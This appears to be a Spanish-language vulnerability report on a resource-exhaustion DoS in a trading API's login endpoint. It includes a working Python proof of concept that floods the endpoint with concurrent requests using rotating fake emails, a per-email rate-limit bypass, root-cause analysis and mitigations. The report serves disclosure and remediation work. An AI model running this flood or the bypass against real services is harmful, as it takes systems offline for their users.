


# DoS en `/api/login` — GTX Trading API

El endpoint `/api/login` permite agotar los recursos de todo el backend (no solo del login) mediante peticiones concurrentes con emails distintos. No es un único bug: son tres factores que se combinan.

## PoC Usado

```python
import httpx
import asyncio
import time

URL = "http://localhost:8080/api/login"
N = 200

async def attack(client, i):
    email = f"dos-{i}@fake.local"
    password = f"Prueba-{i}-login-dos@@##"
    t0 = time.perf_counter()
    r = await client.post(URL, json={"email": email, "password": password}, timeout=30)
    return r.status_code, time.perf_counter() - t0

async def main():
    async with httpx.AsyncClient() as client:
        t0 = time.perf_counter()
        results = await asyncio.gather(*[attack(client, i) for i in range(N)])
        total = time.perf_counter() - t0
        print(f"Total: {total:.2f}s para {N} peticiones concurrentes")
        for status, elapsed in results[:10]:
            print(status, f"{elapsed:.2f}s")

asyncio.run(main())
```

## Causas 

### 1. Argon2 se calcula igual exista o no el usuario

```python
if not user:
    hasher.hash("dummy-password-value")
```

Este código pertenece a la línea 320-321 del archivo `app.py` que se encuentra en la carpeta `api`.



`PasswordHasher(time_cost=3, memory_cost=65536, parallelism=2)` `->` 64  MiB y varias pasadas de CPU **por petición**, válida o inventada.

### 2. Rate limit es por email, no por origen

```python
attempts = login_attempts[body.email]
if len(attempts) >= 8:
    raise HTTPException(429, "Demasiados intentos; inténtelo más tarde")
```

Pertenece al mismo archivo que el punto anterior unas pocas lineas mas arriba, linea 310-315.



El PoC usa un email ditinto por petición (`dos-{i}@fake.local`) `->` cada una entra con contador a 0. El límite de 8 nunca se activa. Bypass trivial.

### 3. Endpoint síncrono + conexión nueva a Postgres por request, compartiendo threadpool con toda la API

`def login(...)` no es async → FastAPI lo ejecuta en el threadpool de Starlette/AnyIO (por defecto ronda los 40 workers, **compartido por toda la app**). Además, `connect()` abre una conexión nueva a Postgres en cada llamada, sin pool. 200 peticiones simultáneas saturan ese threadpool: se bloquean también `/api/orders`, `/api/accounts`, etc.

### Bonus: fuga de memoria en `login_attempts`

`defaultdict(deque)` nunca borra claves de email, solo timestamps viejos dentro de cada deque. Con emails rotativos, la estructura crece sin límite.

## Impacto

Resource-exhaustion DoS sobre toda la API (no solo autenticación), activable con un único origen y sin necesidad de credenciales válidas.

## Mitigaciones (por impacto)

1. **Rate limit por IP en el borde** (nginx `limit_req`/`limit_conn` o equivalente), no solo por email en la app.
2. **Pool de conexiones a Postgres** (`psycopg_pool.ConnectionPool`) en vez de `connect()` por request.
3. **Hash dummy precalculado una sola vez**:

```python
   DUMMY_HASH = hasher.hash(secrets.token_urlsafe(32))  # al arrancar
   ...
   if not user:
       hasher.verify(DUMMY_HASH, body.password)  # mismo coste de verificación, sin rehash
```
4. **Aislar el coste del hash del threadpool compartido**: executor dedicado de tamaño fijo o `asyncio.Semaphore(N)` delante del login.
5. **`login_attempts` con TTL real** (Redis `EXPIRE`) en vez de dict en memoria sin purga de claves.

## Verificación

Repetir el PoC tras aplicar el rate-limit por IP: debería devolver `429` rápido en vez de colgarse, y el resto de endpoints (`/api/orders`, `/api/accounts`) debería seguir respondiendo con normalidad durante el ataque.